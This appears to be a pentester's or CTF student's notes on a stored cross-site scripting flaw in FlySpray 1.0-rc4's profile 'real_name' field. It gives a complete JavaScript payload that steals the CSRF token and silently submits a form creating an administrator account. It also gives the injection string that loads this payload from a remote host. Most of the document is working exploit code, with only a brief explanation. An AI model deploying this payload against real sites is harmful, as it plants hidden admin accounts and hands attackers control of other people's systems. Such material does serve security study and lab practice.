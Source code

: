 
![Pasted image 20240115062047.png](/img/user/imgs/Pasted%20image%2020240115062047.png)

>##Upgrading 0.9.9.* to 1.0* (1.0 alphas, 1.0 betas, Flyspray master branch on github.com)##

 
 ## XSRF Stored FlySpray 1.0-rc4 
 
  ```
 Input passed via the 'real_name' parameter to '/index.php?do=myprofile' is not
properly sanitised before being returned to the user. This can be exploited
to execute arbitrary HTML and script code in a user's browser session in
context of an affected site.
```


Code
```js
var tok = document.getElementsByName('csrftoken')[0].value;
var txt = '<form method="POST" id="hacked_form"
action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hexreaper"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="hexreaper"/>'
txt += '<input type="hidden" name="email_address" value="hexreaper@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="hexreaper@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'
var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();

//This will create a new admin account, hexreaper:12345678



```
We inject the following script on the name field: 

```html
"><script SRC= http://192.168.0.112/flyspraypayload.js></script>
```


> //`"><script` 
> This part is attempting to close an HTML attribute (such as an input field or an image source) and immediately open a `<script>` tag.
> The `">` sequence is attempting to close an HTML attribute prematurely. This is often done in an attempt to break out of an attribute context and inject additional HTML or JavaScript code.
